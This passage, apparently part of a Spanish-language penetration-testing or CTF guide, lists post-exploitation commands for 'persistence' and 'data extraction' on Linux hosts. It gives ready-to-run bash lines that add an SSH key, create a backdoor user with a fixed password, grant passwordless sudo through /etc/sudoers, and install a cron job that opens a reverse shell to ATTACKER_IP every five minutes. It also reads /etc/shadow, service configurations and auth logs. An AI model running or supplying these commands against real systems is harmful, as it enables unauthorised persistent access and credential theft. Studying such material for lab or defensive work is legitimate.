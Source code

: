 
## 6. COMANDOS ADICIONALES Y TÉCNICAS AVANZADAS

### 6.1 Técnicas de Persistencia

#### Backdoors SSH
```bash
# Agregar clave SSH autorizada
echo "ssh-rsa YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys

# Crear nuevo usuario con privilegios
useradd -m -s /bin/bash backdoor_user
echo "backdoor_user:password123" | chpasswd

# Modificar archivo sudoers (si se tienen permisos)
echo "hackviser ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

#### Cron Jobs para Persistencia
```bash
# Agregar tarea cron para conexión reversa
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" | crontab -

# Verificar tareas cron instaladas
crontab -l
```

### 6.2 Técnicas de Extracción de Datos

#### Archivos Sensibles del Sistema
```bash
# Contraseñas del sistema
cat /etc/passwd
cat /etc/shadow  # Si se tienen permisos

# Configuraciones de servicios
cat /etc/ssh/sshd_config
cat /etc/apache2/apache2.conf

# Logs del sistema
tail -n 50 /var/log/auth.log
tail -n 50 /var/log/syslog
```

#### Información de Red
```bash
# Interfaces de red
ip addr show
ifconfig -a

# Tabla de routing
ip route show
netstat -rn

# Conexiones activas
netstat -tulpn
ss -tulpn
```
